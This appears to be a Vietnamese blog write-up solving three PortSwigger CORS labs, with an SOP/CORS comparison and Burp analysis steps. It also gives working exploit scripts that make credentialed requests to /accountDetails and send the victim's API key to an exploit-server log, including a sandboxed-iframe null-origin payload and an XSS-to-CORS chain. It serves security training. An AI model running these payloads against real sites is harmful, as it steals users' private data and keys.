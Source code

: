 ```yaml
---
title: "[PortSwigger Lab] - Cross Origin Resource Sharing (CORS)"
description: Solution of Cross Origin Resource Sharing (CORS) on PortSwigger Lab
date: 2025-06-07 20:46:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, cors]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-07-portswigger-lab-cors/cors.png
    alt: Cross Origin Resource Sharing (CORS)
---
```


## Introduction
**Cross-Origin Resource Sharing (CORS)** là một cơ chế bảo mật của trình duyệt, cho phép hoặc từ chối các yêu cầu từ một origin khác với origin của trang web hiện tại. Nó mở rộng **Same-Origin Policy (SOP)** — chính sách chỉ cho phép các tài nguyên được truy cập nếu chúng đến từ cùng một origin (gồm `scheme`, `hostname` và `port`).

| **Tiêu chí**                       | **Same-Origin Policy (SOP)**                                                      | **Cross-Origin Resource Sharing (CORS)**                                                     |
| ---------------------------------- | --------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------- |
| **Mục tiêu chính**                 | Ngăn chặn website này truy cập dữ liệu riêng tư của website khác                  | Cho phép truy cập có kiểm soát đến tài nguyên từ origin khác                                 |
| **Phạm vi áp dụng**                | Trình duyệt web (JavaScript không được truy cập tài nguyên khác origin)           | Trình duyệt web (mở rộng khả năng truy cập cross-origin có kiểm soát)                        |
| **Thành phần xác định origin**     | Scheme (protocol), domain, port                                                   | Cũng dùng Origin (scheme + domain + port) để xác định ai được phép truy cập                  |
| **Hành vi mặc định**               | **Chặn** truy cập giữa các origin khác nhau                                       | **Không cho phép** nếu không có header CORS hợp lệ từ phía server                            |
| **Tác động đến JS**                | Không cho phép JavaScript đọc dữ liệu từ các trang khác origin                    | Cho phép nếu server gửi đúng header `Access-Control-Allow-Origin`                            |
| **Cho phép tải tài nguyên không?** | Có thể tải hình ảnh, script, font… từ domain khác (nhưng không được đọc nội dung) | Có thể cho phép đọc nội dung, gửi cookie nếu server đồng ý bằng header                       |
| **Kiểm soát từ phía nào?**         | Trình duyệt kiểm soát                                                             | Trình duyệt **và** server phối hợp (server phải trả header phù hợp)                          |
| **Có hỗ trợ cookie không?**        | Cookie được gửi theo origin, nhưng JS không thể đọc cookie của origin khác        | Có, nếu server trả `Access-Control-Allow-Credentials: true` và không dùng `*`                |
| **Tính mở rộng**                   | Không mở rộng – giới hạn nghiêm ngặt giữa các origin                              | Rất linh hoạt, nhưng dễ **cấu hình sai dẫn đến lỗ hổng bảo mật**                             |
| **Lỗi phổ biến**                   | Không có (vì chặn mặc định)                                                       | Phản hồi `Access-Control-Allow-Origin` với bất kỳ Origin (reflect origin) → **lỗ hổng CORS** |
| **Cách dùng phổ biến**             | Tự động, không cần cấu hình                                                       | Dùng khi website cần chia sẻ tài nguyên qua API hoặc frontend từ domain khác                 |

## Solve CORS Lab

| Thành phần                         | Giá trị phản ánh lỗi                              |
| ---------------------------------- | ------------------------------------------------- |
| `Access-Control-Allow-Origin`      | Phản chiếu lại bất kỳ `Origin` gửi lên            |
| `Access-Control-Allow-Credentials` | `true` (cho phép cookie được gửi đi và dùng)      |

### Lab: CORS vulnerability with basic origin reflection
#### Analysis
- Login bằng tài khoản được cấp 
- Mở **Proxy** > **HTTP History** của **Burp**
- Tìm request **AJAX** gửi đến `/accountDetails`, thấy response có header `Access-Control-Allow-Credentials: true` => Gợi ý rằng **server** có hỗ trợ **CORS**.
- Thêm header `Origin: https://evil.com` trong request để test server có **reflect Origin** không
- Server phản hồi `Access-Control-Allow-Origin: https://evil.com` => **reflect Origin**

=> Như này tất cả các request sẽ được trình duyệt chấp nhận 

#### Exploit
- Tạo script gửi đến victim
```html
    <script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('GET', 'https://YOUR-LAB-ID.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;  // Cho phép gửi cookie 
        req.send();

        function reqListener() {
            // Gửi kết quả (API key) về attacker (qua đường dẫn /log)
            location = '/log?key=' + this.responseText;
        };
    </script>
```
- Khi victim truy cập vào trang web của attacker, script trên được thực thi, theo hành vi mặc định, **browser** thêm **header Origin: evil.com** vào request, trong trường hợp này:
    - Server phản hồi lại `Access-Control-Allow-Origin: evil.com` và `Access-Control-Allow-Credentials: true`
    - Vì vậy request thành công khi server chấp nhận **Origin** và **cookie** từ **browser**
- Lấy **apikey** trong `/log` của **Exploit Server**, **smart decode** và submit

### CORS vulnerability with trusted null origin
#### Analysis
- Login bằng tài khoản được cấp 
- Mở **Proxy** > **HTTP History** của **Burp**
- Tìm request **AJAX** gửi đến `/accountDetails`, thấy response có header `Access-Control-Allow-Credentials: true` => Gợi ý rằng **server** có hỗ trợ **CORS**.
- Thêm header `Origin: https://evil.com` trong request để test server có **reflect Origin** không => Không
- Thêm header `Origin: https://YOUR-LAB-ID.web-security-academy.net` trong request để test server có **reflect Origin** không => Có
- Thêm header `Origin: null` trong request để test server có **reflect Origin** không => Có

=> Server chấp nhận cùng **origin** và **null** trong **while list**
#### Exploit
- Ý tưởng: Sử dụng kỹ thuật tấn công với `Origin: null` và **iframe sandbox**
- Tạo mã khai thác và gửi đến victim

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
    src="data:text/html,<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://0ad5002f03f83ae3b5d42fbe00c30040.web-security-academy.net/accountDetails',true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
            location='https://exploit-0a5000f803e43a46b5f22ed0016300f2.exploit-server.net/log?key='+this.responseText;
        };
    </script>">
</iframe>
```

| Quyền                  | Tác dụng                                                               | Nguy cơ                                                                                                   |
| ---------------------- | ---------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| `allow-scripts`        | Cho phép iframe chạy JavaScript.                                       | Nhưng **JS không được truy cập DOM cha**, và origin là `"null"` nếu sandbox không có `allow-same-origin`. |
| `allow-top-navigation` | Cho phép iframe điều hướng top-level (thay đổi `window.top.location`). | Có thể dùng để redirect người dùng.                                                                       |
| `allow-forms`          | Cho phép gửi form (POST, GET...).                                      | Có thể gửi request, nhưng không đọc được phản hồi nếu bị CORS chặn.                                       |

- Lấy **apikey** trong `/log` của **Exploit Server**, **smart decode** và submit

### CORS vulnerability with trusted insecure protocols
#### Analysis
- Login bằng tài khoản được cấp 
- Mở **Proxy** > **HTTP History** của **Burp**
- Tìm request **AJAX** gửi đến `/accountDetails`, thấy response có header `Access-Control-Allow-Credentials: true` => Gợi ý rằng **server** có hỗ trợ **CORS**.
- Thử thêm **header Origin** khác nhau để test hành vi của **server** => chỉ chấp nhận cùng **origin** và bất kết **scheme** nào
- Thử khai thác thêm: 
    - Vào 1 post bất kỳ
    - Checkstock => xuất hiện 1 subdomain
    - Thử khai thác XSS và thành công với payload: `https://stock.0a3b002d04976b6e81260c3a00900075.web-security-academy.net/?productId=%3Cimg%20src=1%20onerror=alert()%3E&storeId=acb`
- Thử thay giá trị **header Origin** thành `https://stock.0a3b002d04976b6e81260c3a00900075.web-security-academy.net` và thành công => Server chấp nhận 

#### Exploit
- Ý tưởng: Từ lỗi XSS ở subdomain, tạo script đế tấn công lấy **apikey**
- Mã trong phần body của **Exploit Server**
```html
<script>
    document.location="http://stock.0a3b002d04976b6e81260c3a00900075.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a3b002d04976b6e81260c3a00900075.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() {location='https://exploit-0acf00f004266b3481b80b3b01a20006.exploit-server.net/log?key='%2bthis.responseText;};%3c/script>&storeId=1"
</script>

```
- Deliver to victim
- Lấy **apikey** trong `/log` của **Exploit Server**, **smart decode** và submit

---
Goodluck! 🍀🍀🍀 